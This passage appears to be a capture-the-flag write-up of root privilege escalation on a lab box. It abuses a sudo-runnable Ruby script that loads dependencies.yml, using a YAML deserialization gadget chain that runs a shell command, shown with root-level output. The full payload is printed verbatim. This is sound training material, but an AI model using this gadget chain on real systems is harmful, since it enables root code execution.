 ```
Traceback (most recent call last):
        2: from /opt/update_dependencies.rb:17:in `<main>'
        1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```
Having looked at the source code and previewing the command output, something that already stood out to me was that it was loading/reading a file called `dependencies.yml`. Furthermore, I wasn't sure exactly where it was looking for this `dependencies.yml`. Perhaps it could possibly be looking for it locally? I created a local file in my home directory of the script and tried running the command again.
```
henry@precious:~$ touch dependencies.yml
henry@precious:~$ sudo ruby /opt/update_dependencies.rb
Traceback (most recent call last):
/opt/update_dependencies.rb:20:in `<main>': undefined method `each' for false:FalseClass (NoMethodError)
```
That was surely a different output than the previous. Okay, so I knew that I could load whatever content I wanted through `dependencies.yml`. How could I use this to my advantage? I searched for `ruby yaml exploits` and I found a blog post titled "[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)". 

Awesome! To summarize the blog post, it looked like the author was accomplishing RCE by setting the `git_set` parameter in `dependencies.yml` to a shell command, which would be executed upon loading (`YAML.load()`). I used the code below from the author of the blog post as my `dependencies.yml`, although I changed `git_set` to `id`, which would be much easier to validate RCE.

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: id
          method_id: :resolve
```
```
henry@precious:~$ sudo ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
...
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```
Nice, I had RCE as `root`! To recall, I knew I could run the script as `root` after running `sudo -l`. Then, I accomplished RCE through the file `dependencies.yml` that was being loaded in the `update_dependencies.rb` script by deserialization.
